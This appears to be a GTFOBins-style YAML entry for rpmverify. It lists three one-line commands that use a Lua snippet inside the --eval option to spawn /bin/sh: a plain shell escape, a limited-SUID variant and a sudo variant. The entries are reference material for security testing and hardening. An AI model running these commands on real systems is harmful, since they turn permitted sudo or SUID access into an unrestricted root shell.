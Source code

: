 ```yaml
---
functions:
  shell:
    - code: rpmverify --eval '%{lua:posix.exec("/bin/sh")}'
  limited-suid:
    - code: ./rpmverify --eval '%{lua:os.execute("/bin/sh")}'
  sudo:
    - code: sudo rpmverify --eval '%{lua:posix.exec("/bin/sh")}'
---
```

